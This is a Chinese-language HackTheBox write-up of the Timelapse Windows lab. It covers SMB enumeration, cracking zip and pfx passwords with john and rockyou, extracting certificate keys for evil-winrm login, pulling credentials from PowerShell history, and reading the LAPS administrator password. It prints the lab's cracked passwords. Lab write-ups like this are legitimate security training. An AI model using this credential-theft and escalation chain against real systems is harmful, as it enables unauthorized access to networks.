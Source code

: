 ```yaml
---
title: HackTheBox-Timelaps-Windows_Active
date: 2025-04-27 20:00:00
tags: 红队
categories: 红队打靶-Windows_Active
---
```




# 信息收集

## nmap-端口扫描

![image-20250427101212742](./Timelaps-Windows_active/image-20250427101212742.png)

## 445-SMB

![image-20250427103034721](./Timelaps-Windows_active/image-20250427103034721.png)

![image-20250427103045776](./Timelaps-Windows_active/image-20250427103045776.png)

smb中有个zip文件下载到本地，解压需要密码，使用zip2john将zip文件转化为hash然后使用john破解密码

```shell
zip2john winrm_backup.zip >> winrm.hash
john --wordlist=/usr/share/wordlists/rockyou.txt winrm.hash
```

![image-20250427103107609](./Timelaps-Windows_active/image-20250427103107609.png)

```
supremelegacy
```

解压zip文件之后是个pfx文件，pfx文件中有证书，私钥，公钥，可以使用openssl提取,提取时需要密码，可以使用pfx2john破解，和zip2john破解是一样的步骤

```shell
pfx2john legacyy_dev_auth.pfx >> legacyy.hash
john --wordlist=/usr/share/wordlists/rockyou.txt
```

![image-20250427104200706](./Timelaps-Windows_active/image-20250427104200706.png)

```txt
thuglegacy
```

pfx文件中包含公钥，私钥，证书，可以使用openssl提取

```shell
提取证书
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -nodes -out server.pem
提取私钥
openssl rsa -in server.pem -out prv.key
提取公钥
openssl x509 -in server.pem -out pub.crt
```

![image-20250427110620631](./Timelaps-Windows_active/image-20250427110620631.png)

![image-20250427110634364](./Timelaps-Windows_active/image-20250427110634364.png)

# get-shell

evil-winrm支持使用公私钥连接

![image-20250427110648005](./Timelaps-Windows_active/image-20250427110648005.png)

查看命令行历史记录，其中有svc_deploy用户的凭证

![image-20250427110659126](./Timelaps-Windows_active/image-20250427110659126.png)

```
svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV
```

## 提权

svc_deploy用户是LAPS_Readers组成员，允许读取LAPS，直接读取管理员密码

![image-20250427114128008](./Timelaps-Windows_active/image-20250427114128008.png)

![image-20250427114100783](./Timelaps-Windows_active/image-20250427114100783.png)

```
Administrator:8T0xR+)@Q[yzD$G9]!$X$F{P
```

![image-20250427114358941](./Timelaps-Windows_active/image-20250427114358941.png)

也可以使用脚本获取LAPS

[n00py/LAPSDumper: Dumping LAPS from Python](./https://github.com/n00py/LAPSDumper/tree/main)

![image-20250427114943587](./Timelaps-Windows_active/image-20250427114943587.png)